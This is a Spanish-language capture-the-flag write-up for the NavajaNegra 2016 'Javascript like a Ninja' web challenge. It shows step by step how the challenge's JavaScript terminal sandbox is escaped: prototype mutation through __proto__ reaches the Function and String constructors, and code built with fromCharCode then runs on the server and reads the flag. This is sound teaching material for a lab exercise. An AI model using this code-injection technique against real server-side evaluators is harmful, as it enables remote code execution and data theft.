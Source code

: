 # NavajaNegra 2016 – Web 2 – Javascript like a Ninja

Una vez superada la primera prueba, deberíamos haber obtenido las credenciales del administrador MojoJojo.

Así que el primer paso es ‘encontrar’ el panel de login y acceder: http://challenges.ka0labs.org:31337/login

![](img/mojojojo-login.png)

Una vez dentro nos encontramos con un terminal llamado MoJS en el que podemos escribir instrucciones, al parecer en lenguaje JavaScript.

![](img/mojojojo-terminal.png)

Si revisamos el código fuente de la página, podemos encontrar un comentario con información de como utilizar el terminal.

```
Notes:
Ok, with all that languages out there I sometimes forget my own =_=’
Types: only integers to count
Operations: addition with ‘+’
Auxiliar functions: ‘help’
Assign to ‘result’ to see output
```

Con esta información ya deberíamos poder utilizar correctamente la terminal.
Probamos con `result=help;` y obtenemos en pantalla la función help


```javascript
"function () { return execute.toString(); }"
```

Si la ejecutamos con result=help(0); obtenemos el código de la función execute, que es la parte servidor, encargada de recibir las instrucciones que escribimos en el terminal.

![](img/mojojojo-execute.png)

Una vez asimilado el código, vemos como las variables que escribimos en el terminal se guardan en el Objeto scope[sessId], también tenemos la restricción de no poder utilizar comillas y generar una cadena de texto o utilizar el carácter punto para lanzar un método.
Una de las pistas nos recomienda utilizar prototypes y mutar el objeto,
Javascript objects have prototypes. Mutate the scope.
Tras innumerables pruebas, se consigue mutar a diferentes tipos, si mutamos a Function podemos utilizar constructor para crear una función propia.

```javascript
MoJS> __proto__=help;
MoJS> result=constructor;
"function Function() { [native code] }"
MoJS> result=constructor(123456);
"function anonymous() {\n123456\n}"
```

Incluso somos capaces de ejecutar la función, aunque de momento es una función que no devuelve nada.

```
MoJS> result=constructor(123456)(0);
"undefined"
```

Nuestro siguiente objetivo es generar un String definido por nosotros para incluirlo en una función y poder ejecutar código.

Para ello mutamos a *String* utilizando la siguiente instrucción, es importante no haber mutado antes a Function.

```javascript
MoJS> __proto__=constructor(help(0));
"undefined"
MoJS> result=constructor;
"function String() { [native code] }"
```

Por ultimo, mutamos a la clase String, donde tendremos acceso a la ansiada función fromCharCode.

```javascript
MoJS> result=constructor;
"function Function() { [native code] }"
MoJS> result=fromCharCode;
"function fromCharCode() { [native code] }"
```

Ahora solo nos falta codificar la instrucción JavaScript que queramos ejecutar en el servidor.
Para ello necesitamos convertir nuestra instrucción a una secuencia de valores decimales y concatenarlos después de utilizar fromCharCode en cada uno de ellos. Por último, utilizamos constructor(instruccion)(0); para crear la función y ejecutarla.

```javascript
return Object.keys(this);

114,101,116,117,114,110,32,79,98,106,101,99,116,46,107,101,121,115,40,116,104,105,115,41,59

result=constructor(fromCharCode(114)+fromCharCode(101)+fromCharCode(116)+fromCharCode(117)+fromCharCode(114)+fromCharCode(110)+fromCharCode(32)+fromCharCode(79)+fromCharCode(98)+fromCharCode(106)+fromCharCode(101)+fromCharCode(99)+fromCharCode(116)+fromCharCode(46)+fromCharCode(107)+fromCharCode(101)+fromCharCode(121)+fromCharCode(115)+fromCharCode(40)+fromCharCode(116)+fromCharCode(104)+fromCharCode(105)+fromCharCode(115)+fromCharCode(41)+fromCharCode(59))(0);

"execute,scope,fl4g"
```

Finalmente repetimos el paso anterior y codificamos la instrucción return fl4g; para obtener el flag.

```javascript
return fl4g;
```

Aquí vemos la tres instrucciones necesarias para resolver la prueba

![](img/mojojojo-solucion.png)
